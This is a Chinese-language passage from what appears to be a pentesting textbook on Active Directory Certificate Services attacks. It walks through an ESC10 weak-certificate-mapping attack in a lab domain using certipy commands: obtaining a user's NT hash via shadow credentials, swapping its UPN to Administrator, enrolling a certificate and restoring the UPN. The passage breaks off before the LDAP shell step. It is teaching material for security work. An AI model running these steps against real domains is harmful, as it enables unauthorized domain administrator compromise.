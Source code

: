 ```
certutil -dstemplate ESC9 msPKI-Enrollment-Flag -0x00080000
```

### ESC10 - 弱证书映射

这种攻击技术有两种情况 - 当**StrongCertificateBindingEnforcement**设置为**0**或**CertificateMappingMethods**包含值**0x4**时。简单来说，这意味着证书的 SAN 优先于新的安全扩展。仍然必须满足关于具有客户端认证 EKU 和**GenericWrite**权限的模板的要求。第一种情况与 ESC9 攻击相同，但可以使用任何证书模板。第二种情况针对机器帐户和默认域管理员，因为它们没有 UPN 属性。我们的目标是妥协域管理员。再次，我们将使用**khal.drogo**具有**viserys.targaryen**上的**GenericAll**权限：

1.  为确保我们正确准备实验室，运行以下命令：

    ```
    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel /v CertificateMappingMethods
    ```

    输出应该如下截图所示：

![图 8.26 - CertificateMappingMethod 值为 0x4，允许 ESC10 攻击](img/B18964_08_26.jpg)

图 8.26 - CertificateMappingMethod 值为 0x4，允许 ESC10 攻击

1.  检索**viserys.targaryen**的 NT 哈希：

    ```
    certipy shadow auto -u 'khal.drogo@essos.local' -p 'horse' -account viserys.targaryen
    ```

1.  将**viserys.targaryen**的 UPN 更新为**Administrator@essos.local**：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn 'Administrator@essos.local'
    ```

1.  注册任何允许客户端认证的证书模板：

    ```
    certipy req -username 'viserys.targaryen@essos.local' -hash 'd96a55df6bef5e0b4d6d956088036097' -target 192.168.56.23 -ca 'ESSOS-CA' -template User
    ```

1.  将**viserys.targaryen**的 UPN 更改回原始状态：

    ```
    certipy account update -username 'khal.drogo@essos.local' -p 'horse' -user viserys.targaryen -upn viserys.targaryen@essos.local
    ```

1.  通过 Schannel 获取 LDAP shell：
